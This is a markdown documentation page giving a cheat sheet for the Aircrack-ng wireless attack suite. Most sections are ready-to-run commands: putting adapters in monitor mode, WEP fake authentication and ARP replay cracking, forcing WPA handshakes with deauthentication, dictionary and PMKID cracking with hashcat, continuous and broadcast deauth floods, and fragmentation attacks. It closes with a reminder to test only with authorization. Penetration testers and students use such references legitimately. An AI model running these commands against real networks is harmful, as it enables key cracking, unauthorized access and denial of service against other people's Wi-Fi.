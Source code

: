 ```yaml
---
title: Aircrack-ng Cheatsheet
description: A comprehensive guide to Aircrack-ng suite commands and best practices
template: doc
---
```



![Aircrack-ng Cheatsheet](../../../../assets/aircrack-ng.png)

## Table of Contents

- [Basic Commands](#basic-commands)
- [Network Discovery](#network-discovery)
- [Packet Capture](#packet-capture)
- [WEP Attacks](#wep-attacks)
- [WPA/WPA2 Attacks](#wpawpa2-attacks)
- [Client Attacks](#client-attacks)
- [Advanced Operations](#advanced-operations)

## Basic Commands

<Steps>
1. **Interface Management**
   ```bash
   airmon-ng                 # Show wireless interfaces
   airmon-ng check          # Check for interfering processes
   airmon-ng check kill     # Kill interfering processes
   airmon-ng start wlan0    # Start monitor mode
   airmon-ng stop wlan0mon  # Stop monitor mode
   ```

2. **Basic Network Analysis**
   ```bash
   airodump-ng wlan0mon     # Start scanning networks
   aireplay-ng --test wlan0mon  # Test injection capabilities
   ```
</Steps>

## Network Discovery

<Tabs>
  <TabItem label="Basic Scanning">
    ```bash
    airodump-ng wlan0mon
    airodump-ng --band abg wlan0mon    # Scan all bands
    airodump-ng --channel 6 wlan0mon   # Scan specific channel
    ```
  </TabItem>

  <TabItem label="Targeted Scanning">
    ```bash
    airodump-ng --bssid [MAC] --channel [CH] --write capture wlan0mon
    airodump-ng --essid [NAME] --write capture wlan0mon
    ```
  </TabItem>
</Tabs>

## Packet Capture

```bash
airodump-ng --bssid [MAC] -w output wlan0mon  # Basic capture
airodump-ng --bssid [MAC] -c [CH] -w output --output-format pcap wlan0mon  # Full capture
airdecap-ng -b [MAC] output.cap   # Decrypt captured packets
```

## WEP Attacks

<Steps>
1. **Fake Authentication**
   ```bash
   aireplay-ng -1 0 -e [ESSID] -a [MAC] -h [YOUR_MAC] wlan0mon
   ```

2. **ARP Replay Attack**
   ```bash
   aireplay-ng -3 -b [MAC] -h [YOUR_MAC] wlan0mon
   ```

3. **Cracking**
   ```bash
   aircrack-ng -b [MAC] output*.cap
   aircrack-ng -K -b [MAC] output*.cap  # PTW attack
   ```
</Steps>

## WPA/WPA2 Attacks

<Tabs>
  <TabItem label="Capture">
    ```bash
    # Capture handshake
    airodump-ng --bssid [MAC] -c [CH] -w wpa wlan0mon
    # Deauthentication to force handshake
    aireplay-ng -0 1 -a [MAC] -c [CLIENT_MAC] wlan0mon
    ```
  </TabItem>

  <TabItem label="Cracking">
    ```bash
    # Dictionary attack
    aircrack-ng -w wordlist.txt wpa*.cap
    # Using hashcat format
    aircrack-ng -J output wpa*.cap
    # Cracking with rules
    aircrack-ng -r rules.txt -w wordlist.txt wpa*.cap
    ```
  </TabItem>
</Tabs>

## Client Attacks

```bash
# Deauthentication attack
aireplay-ng -0 0 -a [MAC] wlan0mon         # Continuous deauth
aireplay-ng -0 10 -a [MAC] wlan0mon        # Send 10 deauth packets
aireplay-ng -0 0 -a [MAC] -c FF:FF:FF:FF:FF:FF wlan0mon  # Broadcast deauth
```

## Advanced Operations

<Tabs>
  <TabItem label="Fragmentation Attack">
    ```bash
    aireplay-ng -5 -b [MAC] -h [YOUR_MAC] wlan0mon
    packetforge-ng -0 -a [MAC] -h [YOUR_MAC] -k 255.255.255.255 -l 255.255.255.255 -y fragment*.xor -w inject.cap
    ```
  </TabItem>

  <TabItem label="PMKID Attack">
    ```bash
    hcxdumptool -i wlan0mon -o pmkid.pcapng --enable_status
    hcxpcaptool -z pmkid.hash pmkid.pcapng
    hashcat -m 16800 pmkid.hash wordlist.txt
    ```
  </TabItem>
</Tabs>

## Best Practices

- Always operate on networks you own or have permission to test
- Keep your Aircrack-ng suite updated
- Use strong wireless adapters with good injection capabilities
- Monitor system logs for errors
- Save captures for analysis
- Use appropriate gain and TX power settings

## Common Workflows

<Steps>
1. **Basic Network Assessment**
   - Start monitor mode
   - Scan for networks
   - Identify target network
   - Capture required packets
   - Analyze collected data

2. **Troubleshooting**
   - Check for interfering processes
   - Verify driver compatibility
   - Test injection capabilities
   - Monitor packet capture quality
   - Verify hardware functionality
</Steps>

## Tips and Tricks

- Use external antennas for better range
- Position yourself closer to the target network
- Avoid running other network-intensive applications
- Keep captures organized with meaningful names
- Use screen or tmux for managing multiple terminals
- Monitor system temperature during intensive operations

Note: This tool should only be used for legitimate network testing and security assessment purposes with proper authorization.